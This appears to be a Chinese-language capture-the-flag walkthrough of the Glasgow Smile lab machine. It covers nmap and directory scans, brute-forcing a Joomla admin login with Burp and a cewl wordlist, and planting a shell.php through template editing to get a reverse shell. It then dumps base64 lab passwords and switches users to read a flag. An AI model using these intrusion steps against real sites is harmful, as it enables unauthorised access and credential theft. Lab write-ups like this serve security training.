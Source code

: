 
## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p 22,80 192.168.10.176
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-06 21:16 EDT
Nmap scan report for 192.168.10.176
Host is up (0.00085s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 67:34:48:1f:25:0e:d7:b3:ea:bb:36:11:22:60:8f:a1 (RSA)
|   256 4c:8c:45:65:a4:84:e8:b1:50:77:77:a9:3a:96:06:31 (ECDSA)
|_  256 09:e9:94:23:60:97:f7:20:cc:ee:d6:c1:9b:da:18:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:1D:88:A4 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.65 seconds
```

## web渗透

通过目录扫描得到一个目录

/joomla               (Status: 301) [Size: 317] [--> http://192.168.10.176/joomla/]

找到目录后继续二级目录探测
```bash
---- Scanning URL: http://192.168.10.176/joomla/ ----
==> DIRECTORY: http://192.168.10.176/joomla/administrator/
==> DIRECTORY: http://192.168.10.176/joomla/bin/
==> DIRECTORY: http://192.168.10.176/joomla/cache/
==> DIRECTORY: http://192.168.10.176/joomla/components/
==> DIRECTORY: http://192.168.10.176/joomla/images/
==> DIRECTORY: http://192.168.10.176/joomla/includes/
+ http://192.168.10.176/joomla/index.php (CODE:200|SIZE:10013)
==> DIRECTORY: http://192.168.10.176/joomla/language/
==> DIRECTORY: http://192.168.10.176/joomla/layouts/
==> DIRECTORY: http://192.168.10.176/joomla/libraries/
==> DIRECTORY: http://192.168.10.176/joomla/media/
==> DIRECTORY: http://192.168.10.176/joomla/modules/
==> DIRECTORY: http://192.168.10.176/joomla/plugins/
+ http://192.168.10.176/joomla/robots.txt (CODE:200|SIZE:836)
==> DIRECTORY: http://192.168.10.176/joomla/templates/
==> DIRECTORY: http://192.168.10.176/joomla/tmp/
```
找到如上一些目录
![](images/2024-04-07-09-39-11.png)
看下robots.txt
其中也有不少目录
搜集一下信息，感觉这靶机做的不是很好
登录名是joomla，没有任何提示
密码是通过cewl生成的密码本中的一个
就这样过吧

这里想用hydra爆破，但是其实是不可行的
Joomla 身份验证无法使用 Hydra 进行暴力破解，因为令牌身份不断变化

老老实实burp爆破
![](images/2024-04-07-10-59-29.png)
s's
找到模板文件
![](images/2024-04-07-10-58-31.png)
可以编辑源代码
![](images/2024-04-07-10-57-13.png)
之后添加了一个shell.php
访问
http://192.168.10.176/joomla/templates/protostar/shell.php
得到反弹shell

## 提权

![](images/2024-04-07-13-47-24.png)
文件太多了，用蚁剑连了一下
看到该文件含有数据库信息
直接登录
得到用户密码
```bash
select * from taskforce;
+----+---------+------------+---------+----------------------------------------------+
| id | type    | date       | name    | pswd                                         |
+----+---------+------------+---------+----------------------------------------------+
|  1 | Soldier | 2020-06-14 | Bane    | YmFuZWlzaGVyZQ==                             |
|  2 | Soldier | 2020-06-14 | Aaron   | YWFyb25pc2hlcmU=                             |
|  3 | Soldier | 2020-06-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |
|  4 | Soldier | 2020-06-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |
|  6 | Soldier | 2020-06-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ |
|  7 | Soldier | 2020-06-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |
+----+---------+------------+---------+----------------------------------------------+
```
Bane:baneishere
Aaron:aaronishere
Carnage:carnageishere
buster:busterishereff
rob:???AllIHaveAreNegativeThoughts???
aunt:auntis the fuck here

### 垂直提权至rob

```bash
rob@glasgowsmile:~$ whoami
rob
rob@glasgowsmile:~$ ls -la
total 52
drwxr-xr-x 3 rob  rob  4096 Jun 16  2020 .
drwxr-xr-x 5 root root 4096 Jun 15  2020 ..
-rw-r----- 1 rob  rob   454 Jun 14  2020 Abnerineedyourhelp
-rw------- 1 rob  rob     7 Apr  6 20:12 .bash_history
-rw-r--r-- 1 rob  rob   220 Jun 13  2020 .bash_logout
-rw-r--r-- 1 rob  rob  3526 Jun 13  2020 .bashrc
-rw-r----- 1 rob  rob   313 Jun 14  2020 howtoberoot
drwxr-xr-x 3 rob  rob  4096 Jun 13  2020 .local
-rw------- 1 rob  rob    81 Jun 15  2020 .mysql_history
-rw-r--r-- 1 rob  rob   807 Jun 13  2020 .profile
-rw-r--r-- 1 rob  rob    66 Jun 15  2020 .selected_editor
-rw-r----- 1 rob  rob    38 Jun 13  2020 user.txt
-rw------- 1 rob  rob   429 Jun 16  2020 .Xauthority
rob@glasgowsmile:~$ cat user.txt
JKR[f5bb11acbb957915e421d62e7253d27a]
rob@glasgowsmile:~$
```
